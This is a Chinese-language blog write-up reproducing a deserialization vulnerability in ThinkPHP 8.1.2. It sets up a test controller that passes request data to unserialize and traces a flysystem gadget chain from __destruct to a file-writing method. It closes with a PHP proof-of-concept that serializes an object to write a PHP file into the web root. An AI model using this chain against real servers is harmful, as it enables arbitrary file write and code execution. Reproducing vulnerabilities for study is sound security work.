





# ThinkPHP是什么

ThinkPHP是 是一个快速、简洁、轻量级的 PHP 开发框架，由中国开发者团队开发和维护。它旨在简化 PHP 应用程序的开发流程，提供丰富的功能和工具，帮助开发者高效构建 Web 应用程序、API 服务等。

**ThinkPHP 的特点**

- **简单易用**：ThinkPHP 的设计理念是“大道至简”，提供了直观的 API 和文档，适合初学者和高级开发者。

- **高性能**：框架经过优化，运行效率高，适合处理高并发场景。

- **模块化设计**：支持模块化开发，方便项目的组织和扩展。

- 丰富的功能

  - 数据库操作（支持多种数据库，如 MySQL、PostgreSQL、SQLite 等）。
  - 路由系统（支持 RESTful 路由）。
  - 模板引擎（内置模板引擎，支持视图渲染）。
  - 缓存机制（支持多种缓存方式，如文件缓存、Redis、Memcached 等）。
  - 安全性（提供 CSRF 防护、XSS 过滤等安全机制）。
  
- **跨平台**：支持 Windows、Linux、macOS 等操作系统。

- **社区活跃**：拥有庞大的中文开发者社区，文档和教程丰富。

而**ThinkPHP (8.1.2)**是官方在2025年1月发布的改进版本，现被发现存在反序列化漏洞，然后我这里跟着文章去复现一下

参考文章：[最新版 ThinkPHP (8.1.2) 反序列化漏洞挖掘](https://mp.weixin.qq.com/s/zc7grAdxulFir0Q4qUT3ww)

# 环境搭建

既然是8.1.2的版本出现的漏洞，那么肯定需要拉源码下来分析了

当前PHP版本：8.1.2

ThinkPHP 版本: 8.1.2, 官网 Github: https://github.com/top-think/framework/releases/tag/v8.1.2, 这里使用`composer`进行安装即可

```
composer create-project topthink/think=8.1.2 my-project
```

- `topthink/think`：ThinkPHP 的 Composer 包名称。
- `8.1.2`：指定安装的版本。
- `my-project`：项目目录名称，可以自定义。

我是在vps的web目录下安装的，安装完成后直接访问就行



然后在Windows物理机拉一下源码然后放phpstorm进行分析

先看看大致的目录内容



随后我们创建`\app\controller\Wang.php`文件, 内容如下（当作控制器）

```php
<?php

namespace app\controller;

use app\BaseController;

class Wang extends BaseController{
    public function index(){
        $data = isset($_REQUEST['data']) ? $_REQUEST['data'] : '';
        if(isset($data) && $data != ''){
            unserialize($data);
        }else {
            echo 'no data';
        }
        return '<br>ThinkPHP Test';
    }
}
```

然后我们访问index方法



# 漏洞分析

## 任意文件读写

既然需要触发反序列化，那么就需要一个能触发的口子，也就是__destruct方法，所以我们全局搜索`__destruct`



发现`vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache`这个类存在一个`save`方法调用, 但它是抽象类, 不允许反序列化, 我们找一下它的子类中的save方法

```php
    public function save()
    {
        $config = new Config();
        $contents = $this->getForStorage();

        if ($this->adapter->has($this->file)) {
            $this->adapter->update($this->file, $contents, $config);
        } else {
            $this->adapter->write($this->file, $contents, $config);
        }
    }
```

在107行用了getForStorage()方法

```php
public function getForStorage()
{
    $cleaned = $this->cleanContents($this->cache);

    return json_encode([$cleaned, $this->complete, $this->expire]);
}
```

```php
//cleanContents方法
public function cleanContents(array $contents)
{
    $cachedProperties = array_flip([
        'path', 'dirname', 'basename', 'extension', 'filename',
        'size', 'mimetype', 'visibility', 'timestamp', 'type',
        'md5',
    ]);

    foreach ($contents as $path => $object) {
        if (is_array($object)) {
            $contents[$path] = array_intersect_key($object, $cachedProperties);
        }
    }

    return $contents;
}
```

分析一下代码

在getForStorage方法中，会对内容进行一定的清理，并返回一个json串，而成员属性是可控的, 所以这里`$contents`的最终结果是部分可控的, 因为返回了一个具体的`JSON`串.

然后继续看save方法，有write调用，大致意思就是如果文件存在则update更新文件的内容，不存在则写入文件

由于`write`方法名就像是写入文件操作, 所以这里全局搜索`write`方法的定义, 看一下是否存在一些文件写入等功能模块的调用

在vendor/league/flysystem/src/Adapter/Local.php中有write的方法，并且在原来的调用中可以看到这个write的第一个参数和第二个参数是可控的，而第三个参数是`$config = new Config();`

```php
public function write($path, $contents, Config $config)
    {
        $location = $this->applyPathPrefix($path);
        $this->ensureDirectory(dirname($location));

        if (($size = file_put_contents($location, $contents, $this->writeFlags)) === false) {
            return false;
        }

        $type = 'file';
        $result = compact('contents', 'type', 'size', 'path');

        if ($visibility = $config->get('visibility')) {
            $result['visibility'] = $visibility;
            $this->setVisibility($path, $visibility);
        }

        return $result;
    }
```

这里存在一个文件写入操作，那我们尝试着去写链子

```
vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache::__destruct->vendor/League\Flysystem\Cached\Storage\Adapter::save->vendor/league/flysystem/src/Adapter/Local::write
```

那我们的poc就是

```php
<?php

namespace League\Flysystem\Adapter {
    class Local {

    }
}

namespace League\Flysystem\Cached\Storage {
    class AbstractCache {
        protected $autosave = false;
    }

    class Adapter extends AbstractCache {
        protected $file = './test.php';
        protected $cache = ['<?=phpinfo();?>'];
        protected $adapter;
    }
}

namespace {
    $obj = new League\Flysystem\Cached\Storage\Adapter();
    $obj -> $adapter = new \League\Flysystem\Adapter\Local();
    echo urlencode(serialize($obj));
}

```

把poc写在public目录下，因为在public目录下的文件才能对外访问到

我们访问poc.php


